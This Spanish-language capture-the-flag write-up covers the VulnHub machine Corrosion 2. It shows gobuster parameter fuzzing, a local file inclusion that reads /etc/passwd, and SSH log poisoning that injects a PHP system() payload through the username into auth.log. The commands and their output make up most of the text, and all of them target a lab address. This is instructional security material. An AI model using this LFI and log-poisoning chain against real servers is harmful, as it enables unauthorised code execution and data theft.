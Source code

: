 ```java
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://192.168.210.129/blog-post/archives/randylogs.php?FUZZ=/etc/passwd
[+] Method:       GET
[+] Threads:      20
[+] Wordlist:     /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Proxy:        socks5://127.0.0.1:1080
[+] User Agent:   gobuster/3.4
[+] Timeout:      10s
===============================================================
2023/01/20 13:54:09 Starting gobuster in fuzzing mode
===============================================================
Found: [Status=200] [Length=2832] http://192.168.210.129/blog-post/archives/randylogs.php?file=/etc/passwd
```
Con el escaneo de paramteros podemos validar que existe un parametro que permite la lectura de archivos, por lo que, podemos validar si listar el archivo `/etc/passwd.` 
```java
http://192.168.210.129/blog-post/archives/randylogs.php?file=/etc/passwd

root:x:0:0:root:/root:/bin/bash
gnome-initial-setup:x:125:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:126:131:Gnome Display Manager:/var/lib/gdm3:/bin/false
randy:x:1000:1000:randy,,,:/home/randy:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:127:65534::/run/sshd:/usr/sbin/nologin
```
Con verificación de lectura de arhivos se podemos buscar la factibilidad de listar `/var/log/auth.log`, y con esto se puede verificar si se puede hacer inyeccion mediante envenamiento de logs. 

```java
http://192.168.210.129/blog-post/archives/randylogs.php?file=/var/log/auth.log

┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/nmap]
└─# proxychains ssh "<?php system('whoami'); ?>"@192.168.210.129
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.129:22  ...  OK
The authenticity of host '192.168.210.129 (192.168.210.129)' can't be established.
ED25519 key fingerprint is SHA256:h+1ijitcr/kVnfc33XfHyMIJifcp2Vt9He9qc+ph1Xk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.210.129' (ED25519) to the list of known hosts.
<?php system('whoami'); ?>@192.168.210.129's password: 
Permission denied, please try again.
<?php system('whoami'); ?>@192.168.210.129's password: 
Permission denied, please try again.
<?php system('whoami'); ?>@192.168.210.129's password: 
```
Mediante ssh podemos verificar si se puede hacer inyeccion php para generar envenenamiento de logs, se puede validar que se puede hacer inyenccion de codigo, por lo que, con la sentencia enviada `<?php system('whoami'); ?>@192.168.210.129'`, y volvemos a cargar la url para buscar la inyeccción del log.
```java
http://192.168.210.129/blog-post/archives/randylogs.php?file=/var/log/auth.log

an 20 16:51:01 corrosion CRON[1604]: pam_unix(cron:session): session closed for user root
Jan 20 16:51:45 corrosion sshd[1607]: Invalid user www-data
 from 192.168.210.128 port 41466
Jan 20 16:51:48 corrosion sshd[1607]: Failed none for invalid user www-data
 from 192.168.210.128 port 41466 ssh2
Jan 20 16:51:49 corrosion sshd[1607]: Failed password for invalid user www-data
 from 192.168.210.128 port 41466 ssh2
```
